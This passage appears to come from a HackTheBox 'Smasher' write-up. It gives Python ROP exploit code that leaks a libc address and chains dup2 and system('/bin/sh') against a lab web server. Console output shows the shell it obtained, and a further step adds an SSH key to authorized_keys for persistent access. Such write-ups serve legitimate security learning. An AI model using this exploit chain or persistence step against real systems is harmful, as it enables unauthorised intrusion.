 ```python
read_addr = u64(buf)
libc_base = read_addr - 0xf7250    # https://libc.blukat.me/?q=_rtld_global%3A0&l=libc6_2.23-0ubuntu10_amd64
system_addr = libc_base + 0x45390
str_bin_sh = libc_base + 0x18cd57
dup2 = libc_base + 0xf7970

log.info('libc base address is: %s' % hex(libc_base))
log.info('read address is : %s' % hex(read_addr))
log.info('system address is: %s' % hex(system_addr))
log.info('dup2 address is: %s' % hex(dup2))
log.info('/bin/sh address is: %s' % hex(str_bin_sh))

r2 = remote('10.10.10.89', 1111)
payload_stage2 = ''
payload_stage2 += 'A' * offset
payload_stage2 += poprdi + p64(fd)
payload_stage2 += poprsi + p64(0x0) + junk
payload_stage2 += p64(dup2)
payload_stage2 += poprdi + p64(fd)
payload_stage2 += poprsi + p64(0x1) + junk
payload_stage2 += p64(dup2)
payload_stage2 += poprdi + p64(str_bin_sh)
payload_stage2 += p64(system_addr)

r2.send('GET /%s\n\n' % urllib.quote(payload_stage2))
r2.recvuntil('File not found')
r2.interactive()
```

The exploit in action:

```
root@kali:~/hackthebox/Machines/Smasher# python exploit.py 
[+] Opening connection to 10.10.10.89 on port 1111: Done
[*] libc base address is: 0x7f561f10e000
[*] read address is : 0x7f561f205250
[*] system address is: 0x7f561f153390
[*] dup2 address is: 0x7f561f205970
[*] /bin/sh address is: 0x7f561f29ad57
[+] Opening connection to 10.10.10.89 on port 1111: Done
[*] Switching to interactive mode
$ id
uid=1000(www) gid=1000(www) groups=1000(www)
```

After getting that shell, we can add our SSH public key to `/home/www/.ssh/authorized_keys` so we can log in directly without using the exploit.

```
root@kali:~# ssh www@10.10.10.89
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Jun 12 01:34:47 2018 from 10.10.14.23
```
### Oracle padding
